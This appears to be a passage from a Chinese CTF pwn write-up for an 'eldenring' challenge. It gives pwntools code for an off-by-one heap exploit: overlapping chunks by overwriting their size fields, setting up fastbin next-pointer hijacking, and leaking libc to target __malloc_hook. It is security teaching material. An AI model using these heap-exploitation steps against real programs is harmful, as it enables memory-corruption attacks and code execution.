 ```python
```

然后开始布置我们的堆块

其中 55 为关键的攻击数据，当输入为 55 时，题面内的 `malloc` 中的 size 处理会向下取整最终为 `0x28`，但实际上根据上面所说，55 的输入下我们能填入的数据为 `55//4*3+2 = 0x29`

下面的脚本中，我们能使用 pwntools 给我们提供的 `b64e` 轻松的进行我们想要输入的数据的编码

```python
Two_finger(55,b64e(b'sekiro')) # 0
Two_finger(55,b64e(b'sekiro')) # 1
Two_finger(55,b64e(b'sekiro')) # 2
Two_finger(65,b64e(b'sekiro')) # 3
```

布局如下所示，从上往下分别对应堆块 `chunk0` `chunk1` `chunk2` `chunk3`<span data-desc>（后文对应序号 `chunk` 一直对应的是开始时候的地址）</span>

![堆块的准备工作](/assets/images/wp/2024/week5/eldenring_6.png)

有了上述的堆块准备工作后，攻击思路:

1. 把 `chunk0` 先 free 掉，再 malloc 回 `chunk0`，写 `0x29` 个字节使得 `chunk1` 得 size 位为 `0x61` 足以覆盖 `chunk2`

   ```python
   Three_finger(0)
   Two_finger(55,b64e(p64(0)*5+p8(0x61)))#0
   ```

   ![覆盖 chunk2](/assets/images/wp/2024/week5/eldenring_7.png)

2. 把 `chunk1` 再 free 掉，再 malloc 拿回来（输入 109 左右都能拿回来），将一开始 `chunk2` 的 size `0x31` 改写为 `0x71`，从而覆盖 `chunk3`

   ```python
   Three_finger(1)
   Two_finger(109,b64e(p64(0)*5+p8(0x71)))#1
   ```

   ![覆盖 chunk3](/assets/images/wp/2024/week5/eldenring_8.png)

3. 将 `0x61` 和 `0x71` 的 chunk 给 free 掉（分别对应 · 和 1），其中 `0x61` 的 chunk 拿回来之后负责改 `0x71` chunk 的 next 位，而被改了 next 位的 `0x71` chunk 用于 hijack 的地址分配

   ```python
   Three_finger(2)
   Three_finger(1)
   ```

   ![地址分配](/assets/images/wp/2024/week5/eldenring_9.png)

   在拿回这两个 size 的 fastbin 前，先通过「菈妮」知道 libc 的地址

   ```python
   #----------------------leak libcaddr-----------------
   Age_of_the_Stars()
   p.recvuntil(b'0x')
   libc_base = int(p.recv(12), 16) - libc.symbols['printf']
   hijackaddr = libc_base + libc.symbols['__malloc_hook'] - 0x23
   print(hex(libc_base))
   ```
